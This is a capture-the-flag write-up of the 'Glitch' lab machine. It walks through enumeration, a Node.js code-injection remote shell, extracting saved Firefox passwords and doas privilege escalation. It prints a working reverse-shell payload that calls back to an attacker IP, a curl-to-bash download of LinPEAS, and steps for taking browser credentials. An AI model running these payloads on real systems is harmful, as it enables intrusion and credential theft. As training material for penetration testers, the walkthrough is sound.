## Nmap scan

```
└─$ sudo nmap -A -Pn $TARGET
```
The scan revealed a single open port: 

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: not allowed
|_http-server-header: nginx/1.14.0 (Ubuntu)
```

For convenience, I added the target to `/etc/hosts`:


## Web

The main page appeared empty at first glance: 

However, inspecting the source code revealed an interesting api endpoint:
```html
<script>
  function getAccess() {
	fetch('/api/access')
	  .then((response) => response.json())
	  .then((response) => {
		console.log(response);
	  });
  }
</script>
```
Quering this endpoint returned a token:

Decoded value is `this_is_not_real`. This looked like it might be intended as a cookie value.
#### Directory enum
Next, I performed directory brute-forcing:
```bash
└─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt  -u http://glitch.thm/ -t 50 -x asp,aspx,config,json,js,txt,xml,bak,env,php,html,zip 
```
This revealed an interesting route /secret:
```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
img                  (Status: 301) [Size: 173] [--> /img/]
js                   (Status: 301) [Size: 171] [--> /js/]
secret               (Status: 200) [Size: 724]
```
#### Cookie

I tested whether the token could be used as a cookie.

Base64-encoded value -> no effect

Raw decoded value -> success

Using the token as a cookie unlocked additional functionality on the /secret page.



#### api
The application loads a script: `/js/script.js` that had a new api endpoint: 
```javascript
await fetch('/api/items')
.then((response) => response.json())
```
Sending a POST request to this endpoint resulted in:
```bash
HTTP/1.1 400 Bad Request
...
{"message":"there_is_a_glitch_in_the_matrix"}
```
This suggested that the endpoint expected additional parameters.
#### Parameters discovery
Using Burp Intruder with a wordlist, I fuzzed for parameters.

For payload I used one file from seclists Discovery/Web-Content/api/objects.txt

This revealed a parameter:


When sending input via this parameter the value was reflected in the response.
And certain inputs triggered JavaScript errors:
- `'` -> SyntaxError


- `id` -> ReferenceError


#### RCE
Since the application is built using Node.js (Express). These earlier error messages strongly indicated that user input was being evaluated as JavaScript code. We can execute arbitrary javascript that we pass from this parameter. 

Using Node.js built-in functionality, we can execute system commands via child_process.
I started a listener:
```bash
rlwrap nc -nvlp 4242
```
Then triggered a reverse shell:
```bash
/api/items?cmd=require('child_process').exec('rm+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|sh+-i+2>&1|nc+192.168.164.35+4242+>/tmp/f')
```


This resulted in a shell as the user account.

```bash
$ whoami
user
```
## User Shell

Listing home directories:
```bash
$ ls -la /home
total 16
drwxr-xr-x  4 root root 4096 Jan 15  2021 .
drwxr-xr-x 24 root root 4096 Jan 27  2021 ..
drwxr-xr-x  8 user user 4096 Jan 27  2021 user
drwxr-xr-x  2 v0id v0id 4096 Jan 21  2021 v0id
```
Revealed another user: `v0id`;

Also inside `/home/user`, I found a `.firefox` directory, which may contain stored credentials:
```bash
$ cd
$ ls -la
total 48
drwxr-xr-x   8 user user  4096 Jan 27  2021 .
drwxr-xr-x   4 root root  4096 Jan 15  2021 ..
lrwxrwxrwx   1 root root     9 Jan 21  2021 .bash_history -> /dev/null
-rw-r--r--   1 user user  3771 Apr  4  2018 .bashrc
drwx------   2 user user  4096 Jan  4  2021 .cache
drwxrwxrwx   4 user user  4096 Jan 27  2021 .firefox
drwx------   3 user user  4096 Jan  4  2021 .gnupg
drwxr-xr-x 270 user user 12288 Jan  4  2021 .npm
drwxrwxr-x   5 user user  4096 Mar 16 14:52 .pm2
drwx------   2 user user  4096 Jan 21  2021 .ssh
-rw-rw-r--   1 user user    22 Jan  4  2021 user.txt
$ cat user.txt
```

Before proceeding further, I ran `LinPEAS` on the target to identify potential privilege escalation vectors:

`$ curl -L http://192.168.164.35/linpeas.sh | bash`

The output revealed an interesting finding:

The v0id user is allowed to run doas with root privileges.

doas is a utility similar to sudo that allows a user to execute commands as another user.

From the manual:
```bash
NAME
     doas — execute commands as another user

SYNOPSIS
     doas [-nSs] [-a style] [-C config] [-u user] [--] command [args]

DESCRIPTION
     The doas utility executes the given command as another user.  The command
     argument is mandatory unless -C, -S, or -s is specified.
```
If improperly configured (for example, allowing execution as root without a password), it can lead to straightforward privilege escalation.
## Extract creds 

I archived the Firefox profile:
```bash
$ tar -czvf archive.tar.gz ./b5w4643p.default-release 
```

Transferred it to my machine:






I used this tool: [firefox_decrypt (author: unode)](https://github.com/unode/firefox_decrypt)



## V0id shell

Extracted credentials:
```json
[
  {
    "url": "https://glitch.thm",
    "user": "v0id",
    "password": "love_the_void"
  }
]
```

Using these credentials, I tried to switch to the v0id user:
 

In this case, v0id is permitted to run commands as root using doas.
This allows us to directly spawn a root shell:
